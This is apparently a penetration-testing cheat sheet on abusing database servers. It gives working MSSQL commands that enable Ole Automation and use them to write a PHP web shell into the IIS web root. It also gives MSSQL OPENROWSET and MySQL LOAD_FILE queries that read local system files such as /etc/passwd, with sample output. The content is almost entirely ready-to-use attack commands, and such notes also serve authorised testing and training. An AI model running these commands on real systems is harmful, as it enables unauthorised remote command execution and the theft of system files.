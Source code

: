 #### MSSQL - Create a File
* On Windows we need to enable [Ole Automation Procedures](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), requires admin privileges

```powershell
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

```powershell
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

#### Read Local Files in MSSQL
* By default allowed to read any files which the account has read access to

```powershell
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

BulkColumn

-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

(1 rows affected)
```

#### MySQL - Read Local Files in MySQL
* By default does not allow file read, but if the correct settings are in place and with the appropriate privileges, we can read files

```sh
mysql> select LOAD_FILE("/etc/passwd");

+--------------------------+
| LOAD_FILE("/etc/passwd")
+--------------------------------------------------+
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync

<SNIP>
```
